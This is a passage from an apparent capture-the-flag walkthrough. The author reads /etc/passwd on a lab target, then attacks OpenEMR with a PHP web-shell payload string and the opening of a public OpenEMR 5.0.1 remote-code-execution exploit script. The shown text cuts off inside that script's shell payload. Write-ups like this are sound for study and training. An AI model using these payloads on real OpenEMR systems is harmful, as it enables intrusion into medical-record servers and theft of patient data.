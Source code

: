 ![](../../.gitbook/assets/24-etc-passwd.png)

Got `/etc/passwd`, can see that `luffy`, `ash`, and `root` are the only users that can log in. Played around with running commands with a simple shell, then remembered that I had downloaded a python exploit that required authentication to the portal to work. `mode=save&docid=rce.php&content=<?php system($_GET["evil"]); ?>`

```python
# Title: OpenEMR 5.0.1 - Remote Code Execution
# Exploit Author: Musyoka Ian
# Date: 2020-05-25
# Title: OpenEMR < 5.0.1 - Remote Code Execution
# Vendor Homepage: https://www.open-emr.org/
# Software Link: https://github.com/openemr/openemr/archive/v5_0_1_3.tar.gz
# Dockerfile: https://github.com/haccer/exploits/blob/master/OpenEMR-RCE/Dockerfile 
# Version: < 5.0.1 (Patch 4)
# Tested on: Ubuntu LAMP, OpenEMR Version 5.0.1.3
# References: https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69

# openemr_exploit.py

#!/usr/bin/env python2
# -*- coding: utf-8 -*-

import requests
import time

auth = "[+] Authentication with credentials provided please be patient"
upload = "[+] Uploading a payload it will take a minute"
netcat = "[+] You should be getting a shell"
s = requests.Session()
payload = {'site': 'default', 'mode' : 'save', 'docid' : 'shell.php', 'content' : """<?php

set_time_limit (0);
$VERSION = "1.0";
$debug = 0;

```